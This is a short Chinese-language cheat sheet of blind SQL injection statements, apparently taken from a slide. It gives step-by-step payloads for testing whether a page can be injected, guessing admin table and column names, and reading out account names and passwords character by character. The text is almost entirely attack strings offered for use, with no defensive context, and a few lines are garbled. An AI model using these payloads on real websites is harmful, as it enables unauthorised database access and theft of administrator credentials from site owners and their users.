

常用的SQL注入语句
1.判断有无注入点
; and 1=1 and 1=2

2.猜表一般的表的名称无非是admin adminuser user pass password 等..
and 0<>(select count(*) from *)
and 0<>(select count(*) from admin) ---判断是否存在admin这张表

3.猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个
and 0<(select count(*) from admin)
and 1<(select count(*) from admin)

4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称.
and 1=(select count(*) from admin where len(*)>0)--
and 1=(select count(*) from admin where len(用户字段名称name)>0)
and 1=(select count(*) from admin where len(_blank>密码字段名称password)>0)

5.猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止
and 1=(select count(*) from admin where len(*)>0)
and 1=(select count(*) from admin where len(name)>6) 错误
and 1=(select count(*) from admin where len(name)>5) 正确 长度是6
and 1=(select count(*) from admin where len(name)=6) 正确

6.猜解字符
and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位
and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位
就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了
and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) --